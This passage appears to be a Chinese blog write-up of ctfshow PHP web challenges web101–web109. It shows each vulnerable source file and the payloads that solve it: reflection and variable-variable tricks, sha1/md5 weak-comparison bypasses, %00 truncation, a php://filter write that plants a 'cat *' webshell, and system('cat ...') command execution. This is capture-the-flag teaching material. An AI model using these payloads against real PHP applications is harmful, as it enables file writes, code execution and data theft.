class="string">&quot;/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\&#123;|\[|\&quot;|\&#x27;|\,|\.|\?|[0-9]/&quot;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">            <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$v2</span>(&#x27;ctfshow&#x27;)<span class="subst">$v3</span>&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;  </span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-15"><a href="#解题-15" class="headerlink" title="解题"></a>解题</h2><p>这次题目过滤的很严重，基本上所有的有用的符号都过滤完了。唯一没过率的是空格，英文字符。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:</span><br><span class="line">	?v1=<span class="number">1</span></span><br><span class="line">	&amp;v2=<span class="keyword">echo</span> <span class="keyword">new</span> <span class="title class_">Reflectionclass</span></span><br><span class="line">	&amp;v3=;</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	Class [ <span class="class"><span class="keyword">class</span> <span class="title">ctfshow</span> ] </span>&#123; @@ /<span class="keyword">var</span>/www/html/ctfshow.php <span class="number">15</span>-<span class="number">17</span> - Constants [<span class="number">0</span>] &#123; &#125; - Static properties [<span class="number">0</span>] &#123; &#125; - Static methods [<span class="number">0</span>] &#123; &#125; - Properties [<span class="number">3</span>] &#123; Property [ <span class="keyword">public</span> <span class="variable">$dalaoA</span> ] Property [ <span class="keyword">public</span> <span class="variable">$dalaoB</span> ] Property [ <span class="keyword">public</span> <span class="variable">$flag_95d6ac660x2d97c50x2d4e840x2d91a80x2d738690f9687</span> ] &#125; - Methods [<span class="number">0</span>] &#123; &#125; &#125;</span><br><span class="line"></span><br><span class="line">修改，同时爆破最后面一位。</span><br><span class="line"><span class="number">95</span>d6ac660x2d97c50x2d4e840x2d91a80x2d738690f9687 =&gt; <span class="number">95</span>d6ac66-<span class="number">97</span>c5-<span class="number">4e84</span>-<span class="number">91</span>a8-<span class="number">738690</span>f9687</span><br><span class="line">具体怎么爆破？</span><br><span class="line">    很简单，BP抓个包爆破下就可以了。</span><br><span class="line">    还有一点，爆破的最后一位是随机的。</span><br></pre></td></tr></table></figure>

<h1 id="web102"><a href="#web102" class="headerlink" title="web102"></a>web102</h1><h2 id="原始信息-19"><a href="#原始信息-19" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="variable">$v4</span> = <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v4</span>)&#123;</span><br><span class="line">    <span class="variable">$s</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$v2</span>,<span class="number">2</span>);</span><br><span class="line">    <span class="variable">$str</span> = <span class="title function_ invoke__">call_user_func</span>(<span class="variable">$v1</span>,<span class="variable">$s</span>);</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$str</span>;</span><br><span class="line">    <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$v3</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;hacker&#x27;</span>);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-16"><a href="#解题-16" class="headerlink" title="解题"></a>解题</h2><p>源码分析</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="comment"># 首先，进行is_numeric甄别</span></span><br><span class="line"><span class="comment"># 赋值优先级高于逻辑运算</span></span><br><span class="line"><span class="variable">$v4</span> = <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v4</span>)&#123;</span><br><span class="line">    <span class="comment"># 进行分割，舍弃字符串/数字前两个</span></span><br><span class="line">    <span class="comment">//这里唯一的坑应该是数字转换好了，却因为少写了两个数字而气愤吧</span></span><br><span class="line">    <span class="variable">$s</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$v2</span>,<span class="number">2</span>);</span><br><span class="line">    <span class="comment"># 调用$v1作为函数，传入的参数是$v2(没分割的情况下就是$v2原值)</span></span><br><span class="line">    <span class="variable">$str</span> = <span class="title function_ invoke__">call_user_func</span>(<span class="variable">$v1</span>,<span class="variable">$s</span>);</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$str</span>;</span><br><span class="line">    <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$v3</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;hacker&#x27;</span>);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>首先，这个题目碰到了两个问题</p>
<ol>
<li><p>$v2必须使用数字</p>
</li>
<li><p>$v1是$v2处理后的第二个处理函数</p>
</li>
<li><p>$v3控制的是写入的文件是哪个</p>
</li>
</ol>
<p>原本根据官方的WP应该是能做出来的，我也测不出能调用科学技术法的纯数字加一个e的组合。</p>
<p>下面是官方WP：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:</span><br><span class="line">	?v2=<span class="number">115044383959474e6864434171594473</span></span><br><span class="line">	&amp;v3=php:<span class="comment">//filter/write=convert.base64-decode/resource=3.php</span></span><br><span class="line">POST:</span><br><span class="line">	v1=hex2bin</span><br><span class="line"></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	回显的是一个简单的字符串，</span><br><span class="line">	查看文件内容有两个随机字符，并且那些真正有用的内容只有查看网页源代码才能看到</span><br></pre></td></tr></table></figure>

<p>WP的来源：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#$v2数字字符串来源：</span></span><br><span class="line"><span class="variable">$a</span> = <span class="string">&quot;&lt;?=`cat *`;&quot;</span>;</span><br><span class="line"><span class="comment"># 这里的0到-1是舍弃等号的</span></span><br><span class="line"><span class="keyword">echo</span> <span class="string">&#x27;11&#x27;</span>.<span class="title function_ invoke__">bin2hex</span>(<span class="title function_ invoke__">substr</span>(<span class="title function_ invoke__">base64_encode</span>(<span class="variable">$a</span>),<span class="number">0</span>,-<span class="number">1</span>));</span><br><span class="line"><span class="comment">#剩下的就是逐层对我们加密的字符串进行解码并且传入进去了</span></span><br><span class="line"><span class="comment">#唯一的注意点就是$a加密后前随机加上两个数字才能抵扣substr</span></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<h1 id="web103"><a href="#web103" class="headerlink" title="web103"></a>web103</h1><h2 id="原始信息-20"><a href="#原始信息-20" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: atao</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-16 11:25:09</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-09-23 21:03:24</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="variable">$v4</span> = <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v4</span>)&#123;</span><br><span class="line">    <span class="variable">$s</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$v2</span>,<span class="number">2</span>);</span><br><span class="line">    <span class="variable">$str</span> = <span class="title function_ invoke__">call_user_func</span>(<span class="variable">$v1</span>,<span class="variable">$s</span>);</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$str</span>;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/.*p.*h.*p.*/i&quot;</span>,<span class="variable">$str</span>))&#123;</span><br><span class="line">        <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$v3</span>,<span class="variable">$str</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;Sorry&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;hacker&#x27;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="meta">?&gt;</span> </span><br></pre></td></tr></table></figure>


<h2 id="解题-17"><a href="#解题-17" class="headerlink" title="解题"></a>解题</h2><p>最致命的，作为菜鸡居然看错了v3没被限制的问题……</p>
<p>正则表达式过滤的是v2被v1处理后的结果，并且进行php后缀筛查的也是这个结果。</p>
<p>所以说，没有控制到v3，和上一题一样WP。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:</span><br><span class="line">	?v2=<span class="number">115044383959474e6864434171594473</span></span><br><span class="line">	&amp;v3=php:<span class="comment">//filter/write=convert.base64-decode/resource=3.php</span></span><br><span class="line">POST:</span><br><span class="line">	v1=hex2bin</span><br><span class="line"></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	回显的是一个简单的字符串，</span><br><span class="line">	查看文件内容有两个随机字符，并且那些真正有用的内容只有查看网页源代码才能看到</span><br></pre></td></tr></table></figure>


<h1 id="web104–换题型"><a href="#web104–换题型" class="headerlink" title="web104–换题型"></a>web104–换题型</h1><p>这次从两个传参开始.</p>
<h2 id="原始信息-21"><a href="#原始信息-21" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">sha1</span>(<span class="variable">$v1</span>)==<span class="title function_ invoke__">sha1</span>(<span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>目测：哈希值弱类型比较</p>
<h2 id="解题-18"><a href="#解题-18" class="headerlink" title="解题"></a>解题</h2><p>这个哈希值弱类型比较比较简单，原因就是它连字符串的值是否相等都没做出比较。如果是md5那种初始值不等加密值相等的情况应该会很难搞。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:v2=<span class="number">1</span></span><br><span class="line">POST:v1=<span class="number">1</span></span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;<span class="number">352</span>baa81-b599-<span class="number">44</span>bd-<span class="number">84</span>f1-<span class="number">0</span>b3b687fc230&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web105"><a href="#web105" class="headerlink" title="web105"></a>web105</h1><h2 id="原始信息-22"><a href="#原始信息-22" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&#x27;flag.php&#x27;</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="variable">$error</span>=<span class="string">&#x27;你还想要flag嘛？&#x27;</span>;</span><br><span class="line"><span class="variable">$suces</span>=<span class="string">&#x27;既然你想要那给你吧！&#x27;</span>;</span><br><span class="line"><span class="keyword">foreach</span>(<span class="variable">$_GET</span> <span class="keyword">as</span> <span class="variable">$key</span> =&gt; <span class="variable">$value</span>)&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$key</span>===<span class="string">&#x27;error&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;what are you doing?!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="variable">$$key</span>=<span class="variable">$$value</span>;</span><br><span class="line">&#125;<span class="keyword">foreach</span>(<span class="variable">$_POST</span> <span class="keyword">as</span> <span class="variable">$key</span> =&gt; <span class="variable">$value</span>)&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$value</span>===<span class="string">&#x27;flag&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;what are you doing?!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="variable">$$key</span>=<span class="variable">$$value</span>;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">if</span>(!(<span class="variable">$_POST</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="variable">$flag</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="variable">$error</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="string">&quot;your are good&quot;</span>.<span class="variable">$flag</span>.<span class="string">&quot;\n&quot;</span>;</span><br><span class="line"><span class="keyword">die</span>(<span class="variable">$suces</span>); </span><br></pre></td></tr></table></figure>

<p>一下子成了绕路十八弯……</p>
<h2 id="解题-19"><a href="#解题-19" class="headerlink" title="解题"></a>解题</h2><p>首当其冲，源码分析：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$error</span>=<span class="string">&#x27;你还想要flag嘛？&#x27;</span>;</span><br><span class="line"><span class="variable">$suces</span>=<span class="string">&#x27;既然你想要那给你吧！&#x27;</span>;</span><br><span class="line"><span class="comment">// 读取get数组的内容</span></span><br><span class="line"><span class="keyword">foreach</span>(<span class="variable">$_GET</span> <span class="keyword">as</span> <span class="variable">$key</span> =&gt; <span class="variable">$value</span>)&#123;</span><br><span class="line">    <span class="comment">// 鉴定数组的key，鉴定到就截断程序</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$key</span>===<span class="string">&#x27;error&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;what are you doing?!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="comment">//鉴定不到就格式化为变量</span></span><br><span class="line">    <span class="variable">$$key</span>=<span class="variable">$$value</span>;</span><br><span class="line"><span class="comment">// 读取POST数组的内容</span></span><br><span class="line">&#125;<span class="keyword">foreach</span>(<span class="variable">$_POST</span> <span class="keyword">as</span> <span class="variable">$key</span> =&gt; <span class="variable">$value</span>)&#123;</span><br><span class="line">    <span class="comment">// 鉴定key是否存在flag，鉴定即截断</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$value</span>===<span class="string">&#x27;flag&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;what are you doing?!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="comment">// 同样，赋值到当前文件变量</span></span><br><span class="line">    <span class="variable">$$key</span>=<span class="variable">$$value</span>;</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment"># 鉴定是否存在key为flag变量的字符串，满足条件就截断程序</span></span><br><span class="line"><span class="keyword">if</span>(!(<span class="variable">$_POST</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="variable">$flag</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="variable">$error</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment"># 调用flag，执行并且输出</span></span><br><span class="line"><span class="keyword">echo</span> <span class="string">&quot;your are good&quot;</span>.<span class="variable">$flag</span>.<span class="string">&quot;\n&quot;</span>;</span><br><span class="line"><span class="keyword">die</span>(<span class="variable">$suces</span>); </span><br></pre></td></tr></table></figure>

<p>这个题目的关键：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">$<span class="string">&#x27;a&#x27;</span>=$<span class="string">&#x27;b&#x27;</span></span><br></pre></td></tr></table></figure>

<p>怎么利用好这个信息很关键。</p>
<p>在看到上面出现flag导入和赋值时，可以选择考虑能不能用当下展示出来的所有变量替换为我需要的变量。起初这道题做的时候，我犯下的重大错误就算误以为这个变量藏在全局环境变量里面，后来才察觉到要使用变量替换。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?suces=flag</span><br><span class="line">POST:error=suces</span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;<span class="number">411087</span>df-<span class="number">3</span>bd9-<span class="number">485</span>d-afd3-<span class="number">7</span>c80bec56c94&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web106"><a href="#web106" class="headerlink" title="web106"></a>web106</h1><h2 id="原始信息-23"><a href="#原始信息-23" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">sha1</span>(<span class="variable">$v1</span>)==<span class="title function_ invoke__">sha1</span>(<span class="variable">$v2</span>) &amp;&amp; <span class="variable">$v1</span>!=<span class="variable">$v2</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-20"><a href="#解题-20" class="headerlink" title="解题"></a>解题</h2><p>这波还真给我猜中了。。。</p>
<p>哈希值没听说过有md5的那种前面0x弱类型比较绕过，去试验了下，哈希函数无法转换数组，它会一致性的返回NULL。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:v2[]=<span class="number">2</span></span><br><span class="line">POST:v1[]=<span class="number">1</span></span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;<span class="number">2642</span>a8fd-<span class="number">0</span>c7b-<span class="number">4</span>ae0-bb80-<span class="number">9538</span>f6c924f5&#125;</span><br></pre></td></tr></table></figure>


<h1 id="web107–换题型"><a href="#web107–换题型" class="headerlink" title="web107–换题型"></a>web107–换题型</h1><h2 id="原始信息-24"><a href="#原始信息-24" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line">       <span class="title function_ invoke__">parse_str</span>(<span class="variable">$v1</span>,<span class="variable">$v2</span>);</span><br><span class="line">       <span class="keyword">if</span>(<span class="variable">$v2</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="title function_ invoke__">md5</span>(<span class="variable">$v3</span>))&#123;</span><br><span class="line">           <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">       &#125;</span><br><span class="line"></span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>


<h2 id="解题-21"><a href="#解题-21" class="headerlink" title="解题"></a>解题</h2><p>v2？？无中生有了属于是……</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line">    <span class="comment"># 将$v1的变量表达式解析为变量和值的形式，并且以数组的形式赋值到$v2当中</span></span><br><span class="line">    <span class="comment"># 形如：</span></span><br><span class="line">    <span class="comment">//$v1=&#x27;a=1&amp;b=2&#x27; =&gt; $v2[&#x27;a&#x27;]=1,$v2[&#x27;b&#x27;]=2</span></span><br><span class="line">    <span class="title function_ invoke__">parse_str</span>(<span class="variable">$v1</span>,<span class="variable">$v2</span>);</span><br><span class="line">    <span class="comment">//获取v2的值进行弱类型比较</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$v2</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="title function_ invoke__">md5</span>(<span class="variable">$v3</span>))&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>似乎这个很简单。</p>
<p>给$v1一个等式，再给$v3一个特殊的md5值。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?v3=s878926199a</span><br><span class="line">POST:v1=flag=<span class="number">0e545993274517709034328855841020</span></span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;<span class="number">8</span>fab69b7-<span class="number">3</span>b39-<span class="number">4</span>d5f-ac55-fb697083d56e&#125;</span><br></pre></td></tr></table></figure>

<p>好吧，真的很简单。一看就知道这是新题型。</p>
<h1 id="web108"><a href="#web108" class="headerlink" title="web108"></a>web108</h1><h2 id="原始信息-25"><a href="#原始信息-25" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="title function_ invoke__">ereg</span> (<span class="string">&quot;^[a-zA-Z]+$&quot;</span>, <span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>])===<span class="literal">FALSE</span>)  &#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;error&#x27;</span>);</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="comment">//只有36d的人才能看到flag</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="title function_ invoke__">strrev</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>]))==<span class="number">0x36d</span>)&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>


<h2 id="解题-22"><a href="#解题-22" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 正则表达式匹配，匹配是不包含字母</span></span><br><span class="line"><span class="comment">//ereg在5.3版本后被弃用</span></span><br><span class="line"><span class="comment">//ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。</span></span><br><span class="line"><span class="keyword">if</span> (<span class="title function_ invoke__">ereg</span> (<span class="string">&quot;^[a-zA-Z]+$&quot;</span>, <span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>])===<span class="literal">FALSE</span>)  &#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;error&#x27;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//只有36d的人才能看到flag</span></span><br><span class="line"><span class="comment">//翻转字符串并且转为整数</span></span><br><span class="line"><span class="comment">//0x开头，想办法使得值与之对等即可</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="title function_ invoke__">strrev</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>]))==<span class="number">0x36d</span>)&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>这里，有翻转字符串的函数在。这是使用00截断的大前提。</p>
<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="line">?c=a%00a778</span><br><span class="line">原本官方的WP是a%00778</span><br><span class="line">因为上面翻转字符串和修改字符串为整数的加持，有一点让我很不解：</span><br><span class="line">假设翻转字符串后的结果是87700%a,那么后面会多出两个0</span><br><span class="line">那么转化的时候为什么没算上这两个0？</span><br><span class="line">所以我觉得严谨点的写法应该是a%00a778</span><br></pre></td></tr></table></figure>

<h1 id="web109"><a href="#web109" class="headerlink" title="web109"></a>web109</h1><h2 id="原始信息-26"><a href="#原始信息-26" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[a-zA-Z]+/&#x27;</span>, <span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[a-zA-Z]+/&#x27;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">            <span class="keyword">eval</span>(<span class="string">&quot;echo new <span class="subst">$v1</span>(<span class="subst">$v2</span>());&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-23"><a href="#解题-23" class="headerlink" title="解题"></a>解题</h2><p>利用异常报错插入命令进行执行</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Exception 异常处理类</span><br><span class="line">payload: </span><br><span class="line">?v1=Exception&amp;v2=system(&#x27;cat fl36dg.txt&#x27;) </span><br><span class="line">?v1=Reflectionclass&amp;v2=system(&#x27;cat fl36dg.txt&#x27;)</span><br></pre></td></tr></table></figure>

